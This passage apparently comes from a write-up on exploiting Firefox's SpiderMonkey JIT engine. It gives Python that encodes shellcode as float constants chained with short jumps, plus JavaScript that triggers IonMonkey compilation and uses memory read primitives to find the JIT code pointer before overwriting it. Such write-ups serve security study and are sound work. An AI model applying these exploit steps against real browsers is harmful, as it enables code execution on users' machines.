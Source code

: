 ```python
buf = [p64(0xdeadbeefbaadc0de), b""]
bytecode = [asm(i) for i in instructions]
jmp = asm("jmp $+8")
for i in bytecode:
    if len(buf[-1] + i) > 6:
        buf[-1] = buf[-1].ljust(6, b"\x90") + jmp
        buf.append(i)
    else:
        buf[-1] += i
buf[-1] = buf[-1].ljust(8, b"\x90")

for i,v in zip(instructions, bytecode):
    print(i, v)

for i, n in enumerate(buf):
    if len(n) > 8:
        print(f"ERROR: CHUNK {i} TOO LONG")
        print(disasm(n))
        exit()
    f = struct.unpack("d", n)[0]
    print(f"let {chr(i+65)} = {f};")
```

Now we are able to 'heat up' our function and get it JITted: 
`for (var i = 0; i < 20000; i++) jitter();`
I found this offset by returning `inIon()` from the function - this will return `true` when the function has been optimized by IonMonkey. I then added a few thousand to the loop counter for safety, and removed the `inIon` call.

Now, we need to track down the address of the actual JITted code. I found that `addrof(jitter) + 40n` contains a pointer to the `JITInfo` class, which itself contains a pointer to the actual JIT code.
```js
f_addr = addrof(jitter);
jitinfo = f_addr + 40n;
f_ptr = arr2int(read(jitinfo, 8), true);
jitcode = arr2int(read(f_ptr, 8), true);
// jitcode is the address of our actual jit code
console.log("JIT Code located at " + jitcode.toString(16));
```
(The variable names are relics and not entirely accurate.)
Originally, I searched through the JIT code page for `0xdeadbeefbaadc0de` in order to dynamically resolve the offset to the constants:
```js
var off = 0n;
var found = false;

for (off = 0n; off < 0x1000n; off++ ) {
    let val = arr2int(read(jitcode + off, 8), true);
    if (val == 0xdeadbeefbaadc0den) {
        found = true;
        break;
    }
    off++;
}
```
However, when testing the exploit in the browser, I discovered that after a certain number of `read()`s, my primitives appeared to stop working (likely due to a busier heap causing my arrays to reallocated.) I also noticed that the offset to the constants was constant (even between shell and browser), so opted to hardcode the offset.
NOTE: When dynamically resolving offsets, I discovered that if the function is large enough (in my case, containing more than 7 constants), the constants appeared at a *lower* address than the JIT pointer (probably jumped back to at some point.) For this reason, you may want to use the range `-0x500 -> 0x500` while searching. Finally, we can rewrite the JIT pointer and execute our payload:
